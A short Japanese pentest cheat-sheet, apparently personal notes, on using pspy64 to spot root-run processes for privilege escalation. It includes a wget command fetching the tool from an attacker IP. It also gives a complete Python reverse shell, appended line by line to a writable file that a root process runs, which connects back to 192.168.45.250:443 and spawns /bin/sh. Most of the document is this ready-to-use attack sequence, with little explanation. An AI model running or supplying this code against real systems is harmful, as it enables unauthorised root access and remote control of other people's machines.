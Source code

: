 # pspy64

* サイト

  https://github.com/DominicBreuker/pspy

* 実行

  ```
  wget http://192.168.45.237:443/pspy64 -O pspy64
  chmod +x pspy64
  ./pspy64
  ```

* UID=0で修正権限のあるファイルが実行されていないか。(1分毎くらいで結果が更新されていく)

  ![image-20230401100315653](img/pspy64/image-20230401100315653.png)

* 怪しいプロセスがあればリバースシェルを注入する

  ※ pythonで注入した例

  ```bash
  echo "import socket,os,pty" >> asinfo
  echo "" >> asinfo
  echo "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)" >> asinfo
  echo 's.connect(("192.168.45.250",443))' >> asinfo
  echo "os.dup2(s.fileno(),0)" >> asinfo
  echo "os.dup2(s.fileno(),1)" >> asinfo
  echo "os.dup2(s.fileno(),2)" >> asinfo
  echo 'pty.spawn("/bin/sh")' >> asinfo
  ```